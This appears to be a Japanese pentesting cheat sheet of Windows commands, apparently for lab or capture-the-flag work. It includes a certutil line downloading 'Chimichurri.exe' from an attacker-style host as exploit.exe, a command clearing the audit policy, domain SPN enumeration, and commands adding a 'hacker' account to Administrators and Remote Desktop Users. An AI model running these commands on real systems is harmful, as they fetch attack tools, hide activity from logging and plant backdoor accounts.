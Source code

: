 ### ハッシュ値の取得

#### certutil
```bash
certutil -hashfile ファイル名 sha1
```
![image](https://github.com/user-attachments/assets/fc7eb7a4-8a53-47cb-ab03-228bf7e7e4f7)

### ファイル関連

#### ファイル探索

##### findstr
```bash
C:\>tasklist | findstr CloudMe
```

##### gc
![image](https://github.com/user-attachments/assets/761eb345-177f-4d8d-b461-b8323c1ce99b)

#### Web
```bash
certutil -urlcache -f http://10.10.14.2:8000/Chimichurri.exe exploit.exe
```
![image](https://github.com/user-attachments/assets/0e89cadd-d41c-471d-9dae-8fc0d7a61cde)

#### 監査ポリシー
- ポリシーの確認
```bash
auditpol /get /category:*
```

- ポリシーの有効化
```bash
auditpol /set /category:"system","account logon" /success:enable /failure:enable
```

- 監査無し
```bash
auditpol /clear /y
```

- Domainサービス列挙
```bash
setspn -T ドメイン -F -Q */*
```

## ユーザ関連

- ユーザの追加
```bash
net user hacker hacker123 /add
```
```bash
net localgroup Administrators hacker /add
```
```bash
net localgroup "Remote Desktop Users" hacker /ADD
```
